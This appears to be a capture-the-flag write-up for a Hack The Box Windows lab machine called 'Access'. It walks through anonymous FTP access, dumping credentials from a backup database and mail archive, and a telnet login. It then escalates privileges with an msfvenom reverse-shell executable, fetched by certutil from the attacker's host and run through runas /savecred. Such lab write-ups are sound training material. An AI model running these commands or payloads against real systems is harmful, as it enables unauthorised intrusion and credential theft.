 # Access

**Machine Information**

	IP : 10.10.10.98
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan` which should reveal three open ports: `21`, `23`, and `80`.

```
rustscan -a 10.10.10.98 -- -sC -sV
```

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet? syn-ack
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Getting a Foothold

**FTP**

An FTP server is running on port 21 and we can sign in as an anonymous user.

```
ftp 10.10.10.98
```

After exploring the `Backups` and `Engineer` directory we find two files that we can download. `Access Control.zip` and `backup.mdb`.

```
ftp> cd Backups
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-23-18  09:16PM              5652480 backup.mdb

ftp> cd Engineer
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  01:16AM                10870 Access Control.zip
```

Download both of these files from the FTP server. If you are having issues downloading files try turning passive mode off and changing to binary mode.

```
ftp> passive off
Passive mode: off; fallback to active mode: off.
ftp> binary
200 Type set to I.
```

**MDBTools**

The file `Access Control.zip` is password protected so we can move on. For accessing the `backup.mdb` file I used `mdb-tables` which can be installed with the following command:

```
sudo apt install mdbtools
```

Use `mdb-tables` to dump the table information.

```
mdb-tables backup.mdb
```

From the output there is a table called `auth_user` that could be useful. Dumping the contents of the table reveals some credentials.

```
mdb-json backup.mdb auth_user
```

```json
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"REDACTED","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

Use the user credentials for `Engineer` to extract the `Access Control.zip` archive. This will reveal a file called `Access Control.pst` which can be read using the tool `readpst`. To install this use the following command:

```
sudo apt install pst-utils
```

Running this tool on the `Access Control.pst`file will create a new file called `Access Control.mbox` which is an email.

```
readpst 'Access Control.pst'  
```

Open this email to find the credentials for the `security` account.

```
...
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.
...
```

**Telnet**

We can try to login into `telnet` using the credentials for the `security` user.

```
telnet -l security 10.10.10.98
```

Success!

```
*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security
```

The user flag can be found in the following directory:

```
C:\Users\security\Desktop\user.txt
```

### Privilege Escalation

**Stored Credentials**

During our initial enumeration we find stored credentials for the `Administrator` account.

```
cmdkey /list
```

```
Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```

We can impersonate the `Administrator` using their stored credentials to gain access to their account. Create a reverse shell executable using `msfvenom`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f exe > shelly.exe
```

Upload the payload to the target machine.

```
python -m http.server 80
```

```
certutil -urlcache -split -f http://10.10.14.4/shelly.exe shelly.exe
```

Start a `netcat` listener on our attack machine. Once listening we can run this executable as the `Administrator` user with the `runas` command to gain a shell with elevated privileges.

```
rlwrap nc -nvlp 9001
```

```
runas /savecred /user:ACCESS\Administrator "C:\Users\security\shelly.exe"
```

Success!

```
C:\Windows\system32>whoami
access\administrator
```

The root flag can be found in the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```

